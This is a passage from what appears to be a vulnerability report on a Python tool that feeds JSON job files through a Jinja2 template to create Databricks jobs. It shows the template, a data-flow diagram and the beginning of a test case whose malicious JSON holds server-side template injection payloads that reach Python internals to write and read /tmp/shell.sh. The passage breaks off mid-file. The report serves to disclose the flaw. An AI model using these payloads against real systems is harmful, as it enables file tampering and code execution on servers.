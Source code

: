     2. **`templates/standard.jinja2` (example snippet from README):**
        ```jinja2
          ...
            "notebook_task": {
              "notebook_path": "{{ job.notebookpath}}",
              "base_parameters": {
                "{{ job.par_sourcesystem }}": "{{ job.par_sourcesystem_val }}",
                "{{ job.par_cdc_volume }}": "{{ job.par_cdc_volume_val }}",
                "{{ job.par_numberofstreams }}": "{{ job.par_numberofstreams_val }}",
                "{{ job.par_configfilepath }}": "{{ job.par_configfilepath_val }}"
              }
          ...
        ```
        - This template snippet shows how values from the `job` object (which comes from the JSON file) are directly embedded into the Databricks job definition using Jinja2 syntax `{{ job.<field> }}`.

    **Visualization of data flow:**

    ```
    [JSON Job Definition File] --> (job.py: line 28) --> [target_jobs (Python list of dicts)]
                                        |
                                        |
    [standard.jinja2 Template] --------> (job.py: line 45: template.render(job=x)) --> [Rendered Jinja2 Template (task)]
                                                                                    |
                                                                                    |
    [Rendered Template (task)] --------> (job.py: line 46: post_db("jobs/create", task)) --> [Databricks API Request] --> [Databricks Job Creation]
    ```

* Security test case:
    1. **Pre-requisites:**
        - Access to the server where `job.py` is running and the ability to create or modify files in the `/code/jobs/` directory. (For testing in a local environment, you would just need to be able to create files in a `/jobs/` directory relative to where you run `job.py`).
        - A Databricks workspace configured as per the application's requirements, including necessary authentication parameters in `params.json`.
    2. **Create a malicious JSON job definition file:**
        - Create a new file named `malicious_job.json` in the `/jobs/` directory with the following content:
        ```json
        {
          "name": "Malicious Job",
          "workers": 1,
          "notebookpath": "/NoteBookPathLevel1/NoteBookName",

          "par_sourcesystem": "{{ ''.__class__.__mro__[2].__subclasses__()[406]('/tmp/shell.sh', 'w').write('whoami') }}",
          "par_sourcesystem_val": "{{ ''.__class__.__mro__[2].__subclasses__()[406]('/tmp/shell.sh', 'r').read() }}",
